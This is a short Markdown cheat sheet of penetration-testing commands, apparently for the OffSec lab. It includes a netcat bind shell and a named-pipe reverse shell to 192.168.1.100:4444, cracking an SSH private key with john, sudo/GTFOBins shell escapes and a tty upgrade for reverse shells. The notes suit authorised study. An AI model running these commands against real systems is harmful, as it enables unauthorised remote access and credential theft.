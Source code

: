 - [nmap](#nmap)
- [dirbuster](#dirbuster)
- [nc](#nc)
- [netstat](#netstat)
- [john](#john)
- [hashcat](#hashcat)
- [SSH](#ssh)
- [nano](#nano)
- [GTFOBins](#GTFOBins)
- [smb](#smb)
- [pretty tty](#pretty-terminal)
---

### nmap
```
-v                    # verbose(output if you found something)
-sS ip                # stealth scan for 1000 most common ports
-sT ip                # TCP connect scan most common ports
-p 90-2000            # port ranges
-A                    # agressive scan(perform OS and version checking)
-p-                   # all ports
-sS -sU -p- ip        # scan all TCP and UDP ports
-v -sS -A -T2 ip      # use T4 for internal, T2 for external
-v -sS -p- -A -T2 ip  # like above but scans all TCP ports

-script

```

### dirbuster
```
dirbuster -u url
```

### nc
```
Most ncs in the OffSec lab (like most ncs in popular linux distros) don't support -e. It simply doesn't exist.
The solution is to redirect the stdin/stdout communication through a pipe:
cd /tmp
mknod mypipe p
#for a bind shell
/bin/bash 0< /tmp/mypipe | nc -nlvp 4444 1> /tmp/mypipe
#for a reverse shell
/bin/bash 0< /tmp/mypipe | nc 192.168.1.100 4444 1> /tmp/mypipe
```

### netstat
```
netstat -tulpn # find all open ports
```

### john
```
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ~/passwords.txt # passwords
# SSH KEYS
# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### hashcat
```
hashcat -m <type> hash.txt wordlist.txt
# see type https://hashcat.net/wiki/doku.php?id=example_hashes
```

### ssh
```
# keys must have good permisions
chmod 400 # r by you 
chmod 600 # rw by you
ssh -i key name@host
ssh name@host
```

### nano
```
# Ctrl + R to read files
# useful if you can run nano as root
```

### sudo
```
sudo -l # list the allowed (and forbidden) commands for the invoking user
```

### GTFOBins
```
if the sudo command output is just reading stuff try to resize the terminal so it looks 'less' like 
when outputing, then you can easily !/bin/bash
```

### smb
```
smbclient -N //ip/share
smbmap -H ip
smbmap -u user -p password -H ip
mount -t cifs //ip/share /local/mountpoint
mount -t cifs -o user=username //ip/share /local/mountpoint
```


### pretty-terminal
```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
